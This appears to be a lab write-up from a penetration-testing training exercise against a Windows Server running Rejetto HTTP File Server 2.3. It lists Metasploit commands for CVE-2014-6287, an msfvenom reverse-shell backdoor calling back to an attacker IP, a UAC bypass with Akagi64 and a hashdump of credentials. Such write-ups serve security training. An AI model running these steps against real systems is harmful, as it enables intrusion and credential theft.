 **Findings:**
- Target system responsive (0% packet loss)
- HTTP File Server 2.3 identified on port 80
- Windows Server 2012 R2 detected

### 2. Vulnerability Research
**Commands Executed:**
```bash
searchsploit hfs
```

**Findings:**
- Rejetto HTTP File Server 2.3.x - Remote Command Execution
- Multiple exploit paths available
- CVE-2014-6287 identified

### 3. Initial Exploitation
**Commands Executed:**
```bash
msfconsole -q
use exploit/windows/http/rejetto_hfs_exec
set RHOSTS demo.ine.local
exploit
```

**Results:**
- Meterpreter session established successfully
- Initial access as VICTIM\admin user
- Remote code execution confirmed

### 4. Privilege Escalation
**Technique:** UAC Bypass using Akagi64 method 23
**Commands Executed:**
```bash
# Custom payload creation
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.31.2 LPORT=4444 -f exe > backdoor.exe

# File transfer
upload Akagi64.exe C:\Users\admin\AppData\Local\Temp\
upload backdoor.exe C:\Users\admin\AppData\Local\Temp\

# UAC bypass execution
Akagi64.exe 23 C:\Users\admin\AppData\Local\Temp\backdoor.exe
```

**Results:**
- UAC successfully bypassed
- NT AUTHORITY\SYSTEM privileges achieved
- Process migrated to lsass.exe for persistence

### 5. Post-Exploitation
**Commands Executed:**
```bash
getuid
sysinfo
hashdump
```
